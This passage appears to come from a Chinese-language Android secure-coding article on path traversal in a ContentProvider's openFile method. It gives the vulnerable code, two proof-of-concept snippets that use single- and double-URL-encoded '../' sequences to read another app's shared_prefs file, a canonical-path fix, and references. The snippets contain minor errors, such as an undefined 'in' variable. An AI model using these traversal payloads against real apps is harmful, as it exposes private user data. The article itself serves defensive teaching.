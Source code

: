 ``` java
private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
    throws FileNotFoundException {
    File file = new File(IMAGE_DIRECTORY, Uri.parse(paramUri.getLastPathSegment()).getLastPathSegment());
    return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
}
```
POC1：
``` java
String target = "content://com.example.android.sdk.imageprovider/data/" + "..%2F..%2F..%2Fdata%2Fdata%2Fcom.example.android.app%2Fshared_prefs%2FExample.xml";

ContentResolver cr = this.getContentResolver();
FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse(target));

byte[] buff = new byte[fis.available()];
in.read(buff);
``` 
POC2：double encode
``` java
String target = "content://com.example.android.sdk.imageprovider/data/" +
"%252E%252E%252F%252E%252E%252F%252E%252E%252Fdata%252Fdata%252Fcom.example.android.app%252Fshared_prefs%252FExample.xml";

ContentResolver cr = this.getContentResolver();
FileInputStream fis = (FileInputStream)cr.openInputStream(Uri.parse(target));

byte[] buff = new byte[fis.available()];
in.read(buff);
``` 
解决方法Uri.decode()
``` java
private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
  public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
      throws FileNotFoundException {
    String decodedUriString = Uri.decode(paramUri.toString());
    File file = new File(IMAGE_DIRECTORY, Uri.parse(decodedUriString).getLastPathSegment());
    if (file.getCanonicalPath().indexOf(localFile.getCanonicalPath()) != 0) {
      throw new IllegalArgumentException();
    }
    return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
  }
```
## 0x06 参考
https://www.securecoding.cert.org/confluence/pages/viewpage.action?pageId=111509535  
http://www.jssec.org/dl/android_securecoding_en.pdf  
http://developer.android.com/intl/zh-cn/reference/android/content/ContentProvider.html  
